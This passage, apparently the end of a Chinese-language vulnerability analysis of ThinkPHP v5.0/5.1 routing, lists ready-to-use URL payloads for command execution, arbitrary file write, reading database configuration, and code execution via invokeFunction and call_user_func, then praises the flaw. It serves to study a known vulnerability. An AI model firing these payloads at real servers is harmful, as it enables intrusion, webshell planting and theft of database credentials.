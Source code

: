 如任意命令执行
`?s=/index/think\view\driver\php/display&content=<?php%20phpinfo();`
任意文件写入，生成在index.php同一级目录
`?s=index/\think\template\driver\file/write&cacheFile=test.php&content=<?php%20phpinfo();`
获取配置信息
`?s=index/\think\config/get&name=database.username`
除此之外，还可以使用\think\request/input（v5.0版本不能用是因为think\request的构造函数为protected，不允许动态调用）
如任意代码执行
`?s=index/\think\request/input&data[]=123&filter=phpinfo`
invokeFunction核心ReflectionFunction
`?s=index/\think\container/invokeFunction&function=call_user_func&vars[0]=phpinfo&vars[1]=1`
`?s=index/\think\container/invokeFunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
因为think\app继承自think\container，所以改成think\app也行
其中call_user_func填充参数时，以数组形式，第一个为函数名，第二个为函数参数
call_user_func_array填充参数时，以数组形式，第一个为函数名，第二个为函数参数（也为数组形式）
这里v5.1只能用php7，如v5.0还可以使用assert来执行函数

## 总结
这次出的这个漏洞危害很大，整个调用过程也非常漂亮，值得一步一步调试。
其中收获大致就是了解了thinkphp v5版本路由调用的流程，v5.1版本的闭包函数构造的方式给框架带来了不一样的感受，不得不给thinkphp一个赞
